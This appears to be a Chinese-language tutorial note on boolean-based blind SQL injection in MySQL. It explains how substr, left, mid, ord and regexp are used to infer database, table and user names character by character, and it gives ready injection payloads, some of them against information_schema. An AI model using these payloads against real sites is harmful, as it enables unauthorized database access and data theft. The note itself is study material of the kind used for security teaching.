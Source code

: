 Sql 用例：

(1) substr(DATABASE(),1,1)>’a’, 查看数据库名第一位， substr(DATABASE(),2,1) 查看数据库名第二位，依次查看各位字符。

(2) substr((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE T table_schema=0xxxxxxx LIMIT 0,1),1,1)>’a’ 此处 string 参数可以为 sql 语句，可自行构造 sql 语句进行注入。

**Left()****函数**

Left()得到字符串左部指定个数的字符

Left ( string, n ) string 为要截取的字符串， n 为长度。

Sql 用例：

(1) left(database(),1)>’a’, 查看数据库名第一位， left(database(),2)>’ab’, 查看数据库名前二位。

(2) 同样的 string 可以为自行构造的 sql 语句。

同时也要介绍 ORD() 函数，此函数为返回第一个字符的 ASCII 码，经常与上面的函数进行组合使用。

例如 ORD(MID(DATABASE(),1,1))>114 意为检测 database() 的第一位 ASCII 码是否大于 114 ，也即是 ‘r’


----

## 盲注----基于布尔的SQL盲注

构造逻辑判断  
常用字符串截取函数[http://www.cnblogs.com/yyccww/p/6054569.html](http://www.cnblogs.com/yyccww/p/6054569.html)  
常用函数  
left(a,b) 从左侧截取a的前b位  
right(a,b) 从右侧截取a的前b位  
substr(a,b,c) 从b位置,将字符串a截取c的长度  
mid(a,b,c) 从b位置,将字符串a截取c的长度  
ascii() 将字符转换为ascii  
ord()同ascii()一样  
  
  
  
repexp正则注入  
用法select user() regexp '^[a-z]'  
第二位可以用select user() regexp '^ro'  
当正确的时候显示结果为1,不正确的是时候结果为0  
select * from users where id=1 and 1=(if((user() regexp '^r'),1,0))  
select * from users where id=1 and 1=(user() regexp '^r')  
^是从开头进行匹配,$是从结尾开始匹配

详细信息[http://www.cnblogs.com/yyccww/p/6054579.html](http://www.cnblogs.com/yyccww/p/6054579.html)
  
  
通过if语句的条件判断,返回一些条件句,比如if构造一个判断.根据返回结果是否等于0或者等于1进行判断  
select * from users where id=1   
and 1=(select 1 from   
information_schema.tables   
where table_schema='secrity' and   
table_name regexp '^us[a-z]' limit 0,1)  
  